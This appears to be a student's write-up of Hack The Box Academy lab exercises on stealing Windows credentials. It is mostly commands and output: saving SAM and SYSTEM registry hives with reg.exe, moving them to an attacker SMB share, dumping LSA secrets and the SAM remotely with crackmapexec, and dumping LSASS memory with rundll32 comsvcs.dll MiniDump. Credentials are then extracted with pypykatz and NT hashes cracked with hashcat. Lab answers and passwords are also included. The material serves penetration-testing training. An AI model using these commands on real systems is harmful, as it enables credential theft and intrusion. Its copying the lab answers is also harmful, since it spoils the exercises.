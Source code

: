 # Attacking SAM & LSASS

## Attacking SAM

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

There are three registry hives that we can copy if we have local admin access on the target ->

<table><thead><tr><th width="182">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.</td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

We can create backups of these hives using the `reg.exe` utility.

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

Once the hives are saved offline, we can use various methods to transfer them to our attack host. In this case, let's use [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)

```shell-session
ElFelixi0@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once we have the share running on our attack host, we can use the `move` command on the Windows target to move the hive copies to the share.

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
```

And then once everything is on the attackbox we can dump it using secretsdump ->

```shell-session
ElFelixi0@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

we can copy the NT hashes associated with each user account into a text file and start cracking passwords.

```shell-session
ElFelixi0@htb[/htb]$ sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
<SNIP>
```

and in hashcat ->

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping

Using crackmapexec (better to use netexec but in the course it will be cme) we can extract credentials from a running service, scheduled task, or application that uses LSA secrets to store passwords.

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```shell-session
ElFelixi0@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

_**Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
hashcat -m 1000 realnthash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>c02478537b9727d391bc80011c2e2321:matrix</p></figcaption></figure>

_**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer.**_

```
crackmapexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Attacking LSASS

LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

LSASS will:

* Cache credentials locally in memory
* Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
* Enforce security policies
* Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

With access to an interactive graphical session with the target, we can use task manager to create a memory dump.

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><code>Open Task Manager</code> > <code>Select the Processes tab</code> > <code>Find &#x26; right click the Local Security Authority Process</code> > <code>Select Create dump file</code></p></figcaption></figure>

And a file will be created here ->

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

And we can transfer the file to our local machine just like the sam one.

### Rundll32

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line.

we must determine what process ID (`PID`) is assigned to `lsass.exe` throught cmd or powershell

_**CMD:**_

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
========================= ======== ============================================
<SNIP>
lsass.exe                      672 KeyIso, SamSs, VaultSvc
```

_**Powershell:**_

```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```

And then we can use rundll ->

```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`) and we can transfer that file to attackbock just like the others.

### Pypykatz to Extract Credentials

Now that we have our dmp file we can use [pypykatz](https://github.com/skelsec/pypykatz) to attempt to extract credentials from the .dmp file.

```shell-session
ElFelixi0@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

The output will looksomething like this ->

```shell-session
<SNIP>
== LogonSession ==
authentication_id 1354581 (14ab55)
session_id 2
username bob
domainname DESKTOP-33E7O54
logon_server WIN-6T0C3J2V6HP
logon_time 2021-12-14T18:14:25.514306+00:00
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354581
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
	== WDIGEST [14ab55]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
<SNIP>	
```

Now we can use Hashcat to crack the NT Hash.

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

_**Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer.**_

<figure><img src="../../../../.gitbook/assets/image (1455).png" alt=""><figcaption><p>C:\Users\HTB-ST~1\AppData\Local\Temp\lsass.DMP</p></figcaption></figure>

```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1032889/Documents/
```

<figure><img src="../../../../.gitbook/assets/image (1456).png" alt=""><figcaption></figcaption></figure>

```
pypykatz lsa minidump lsass.DMP
```

<figure><img src="../../../../.gitbook/assets/image (1457).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314</p></figcaption></figure>

```
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (1458).png" alt=""><figcaption><p>31f87811133bc6aaa75a536e77f64314:Mic@123</p></figcaption></figure>
